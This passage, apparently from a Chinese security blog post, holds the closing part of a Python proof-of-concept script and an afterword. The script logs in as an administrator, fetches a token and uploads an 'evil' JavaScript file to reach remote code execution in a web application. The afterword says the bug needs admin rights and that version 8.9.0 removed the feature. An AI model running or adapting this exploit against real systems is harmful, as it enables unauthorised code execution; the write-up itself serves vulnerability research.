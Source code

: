 ```
    parser.add_argument("-n", "--name", type=str, help="newLanguageName", default="test", required=True)
    return parser.parse_args()

if __name__ == '__main__':
    args = ParseArgs()
    if not args.proxy:
        proxy = {}
    else:
        proxy = {
            "http": args.proxy,
            "https": args.proxy
        }
    session = requests.session()
    jsfn = os.path.basename(args.file)
    jsfc = open(args.file, "r", encoding="utf-8").read()
    LoginAsAdministrator(session, args.url.strip("/"), proxy, args.admin_username, args.admin_password)
    alt_token = GeyAltToken(args.url.strip("/"), proxy, session)
    DoAuthenticate(session, args.url.strip("/"), proxy, args.admin_username, alt_token)
    UploadEvilJsFile(session, args.url.strip("/"), proxy, jsfn, jsfc, alt_token)

```  
  
效果：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJsw04sp21Mn3WicSDIdbCibKWJ69pr4bdjJ15IpqTDWPMEMkutwaDrpZg/640?wx_fmt=png&from=appmsg "")  
# 四、后记  
  
这个漏洞官方说需要验证，但是这个功能点是管理员组用户才具有的，因此普通用户账户应当是无法利用的，并且我也没找到其他地方存在配置代码宏这个功能对应的函数，不排除我落了某些地方；可能会有人有疑问，我都有管理员组账户的账号密码了，我还这么费劲地RCE干嘛，不能直接传插件RCE吗？但是至少我测试的8.9.0版本已经去除了这个功能，其他版本我具体也没去查：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/sXbicAlDr12ryYZGbyGAzW0oTddMuPicuJcD54UC32HOCicSQwypPEctlk5rMXuuV7qGL0tQEUSAFwbKZHFQ3COAg/640?wx_fmt=png&from=appmsg "")  
  
  
  
